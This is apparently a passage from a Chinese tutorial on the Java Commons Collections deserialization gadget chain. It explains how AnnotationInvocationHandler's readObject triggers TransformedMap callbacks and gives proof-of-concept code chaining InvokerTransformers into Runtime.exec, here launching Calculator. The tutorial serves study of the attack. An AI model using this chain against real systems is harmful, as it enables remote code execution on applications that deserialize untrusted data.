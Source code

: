```java
            Map<String, Class<?>> memberTypes = annotationType.memberTypes();
// If there are annotation members without values, that
// situation is handled by the invoke method.
            for (Map.Entry<String, Object> memberValue :
                    memberValues.entrySet()) {
                String name = memberValue.getKey();
                Class<?> memberType = memberTypes.get(name);
                if (memberType != null) { // i.e. member still exists
                    Object value = memberValue.getValue();
                    if (!(memberType.isInstance(value) ||
                            value instanceof ExceptionProxy)) {
                        memberValue.setValue(
                                new AnnotationTypeMismatchExceptionProxy(
                                        value.getClass() + "[" + value + "]").setMember(
                                        annotationType.members().get(name)));
                    }
                }
            }
        }
```

其中 memberValues 是反序列化后得到的Map，也就是TransformedMap修饰的对象。在AnnotationInvocationHandler的readObject中，遍历了memberValues，并且调用setValue依次设置值，这里就会触发我们在TransformedMap中注册的一系列回调函数。

gadget中，AnnotationInvocationHandler是JDK的内部类，需要用getDeclaredConstructor调用构造方法，再用setAccessible设置为外部可见，之后用newInstance实例化对象。

```java
Class clazz = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
Constructor construct = clazz.getDeclaredConstructor(Class.class, Map.class);
construct.setAccessible(true);
InvocationHandler handler = (InvocationHandler) construct.newInstance(Retention.class, outerMap);
```

现在我们有一个AnnotationInvocationHandler，它是反序列化利用链的起点。而由于Java中不是所有对象都支持序列化，待序列化的对象和所有它使用的内部属性对象都必须实现`java.io.Serializable`接口。我们给`ConstantTransformer`的是`Runtime.getRuntime()`，Runtime类并没有实现此接口，所以没法直接序列化，而Class类是实现了序列化接口的，因此我们用InvokerTransformer通过反射进行调用，从Runtime.getRuntime()->Runtime.class，这部分代码就修改成了这样：

```java
        Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[] { String.class,
                        Class[].class }, new Object[] { "getRuntime",
                        new Class[0] }),
                new InvokerTransformer("invoke", new Class[] { Object.class,
                        Object[].class }, new Object[] { null, new Object[0] }),
                new InvokerTransformer("exec", new Class[] { String.class },
                        new String[] { "/System/Applications/Calculator.app/Contents/MacOS/Calculator" }),
        };
        
        Transformer transformerChain = new ChainedTransformer(transformers);
        Map innerMap = new HashMap();
        innerMap.put("value", "xxxx");
        Map outerMap = TransformedMap.decorate(innerMap, null, transformerChain);

```
